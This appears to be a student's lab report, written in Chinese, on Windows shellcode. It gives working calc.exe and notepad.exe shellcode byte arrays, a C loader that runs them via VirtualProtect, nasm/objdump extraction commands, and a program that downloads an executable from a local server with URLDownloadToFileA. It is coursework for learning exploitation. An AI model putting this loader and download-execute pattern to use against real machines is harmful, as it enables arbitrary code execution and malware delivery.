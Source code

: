 # 逆向工程与软件安全实验报告  
## shellcode相关
### 实验任务  
- [x] 给出shellcode能够成功运行  
- [x] 能从汇编源码编译通过并成功dump  
- [x] 搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理  
- [x] 修改shellcode功能为运行记事本程序notepad.exe  
- [x] (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行  

### 实验过程  

##### 给出shellcode能够成功运行  
[shellcode源代码](https://www.exploit-db.com/shellcodes/48116)  
新建`calc.c`文件  
```C
#include <windows.h>
#include <stdio.h>

    char code[] = \
    "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
    "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
    "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
    "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
    "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
    "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
    "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
    "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
    "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
    "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
    "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
    "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
    "\x52\xff\xd0";//汇编生成

    int main(int argc, char **argv)
    {
        int (*func)();//函数指针
        func = (int(*)()) code;
        DWORD old_protect;
        VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
        (int)(*func)();
    }
```  
成功运行  
* 注意  
    1. 一定需要`.c`文件，`.cpp`文件会报强制类型转换相关错误(认真踩坑)  
    ![强制类型转换](./image/强制类型转换.png)  
    2. 关闭数据执行保护编译选项  
    ![数据执行保护](./image/数据执行保护.png)  
    

##### 能从汇编源码编译通过并成功dump  
Kali虚拟机中新建`win32-WinExec_Calc-Exit.asm`  
将汇编源码加入`.asm`文件  
```
nasm -f win32 win32-WinExec_Calc-Exit1.asm -o win32-WinExec_Calc-Exit1.o  
for i in $(objdump -D win32-WinExec_Calc-Exit1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
```  
![汇编生成](./image/calc汇编.png)  

##### 解读shellcode原理  
[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  


##### 修改shellcode功能为运行记事本程序notepad.exe  
对应汇编文件内容修改  
![修改汇编](./image/修改汇编.png)  
```
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o  
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
![汇编生成](./image/汇编生成.png)  
新建notepad.c文件  
```C
#include <windows.h>
#include <stdio.h>
//生成notepad.exe
char code1[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89"
"\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08"
"\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x82"
"\xff\xff\xff\x31\xd2\x52\xff\xd0";
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code1, sizeof(code1), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)())code1;
	(int)(*func)();
}
```  
成功运行  
![成功运行](./image/成功运行.png)  

##### 修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行  
tips：使用原生API UrlDownloadToFileA  
在主机上开放端口供下载可执行文件  
`python -m http.service`  
![开放端口](./image/开放端口.png)  
新建download.c文件  
```C
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibrary("urlmon.dll");//手动加载urlmon.dll
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "http://127.0.0.1:8000/Desktop/calc.exe", "a.exe", 0, NULL);
//老师写的参考
	//URLDownloadToFile(NULL, "http://baidu.com", "a.html", 0, NULL);
	//CreateProcess
	//WinExec("a.exe", SW_HIDE);
}
```  
成功运行  
![成功运行](./image/成功.png)  

#### 问题及解决  
问题：运行时引发异常  
![引发异常](./image/异常.png)  
解决：修改字符集  
![修改字符集](./image/解决.png)  
参考：[CSDN](https://blog.csdn.net/qq_39446329/article/details/108151735)  



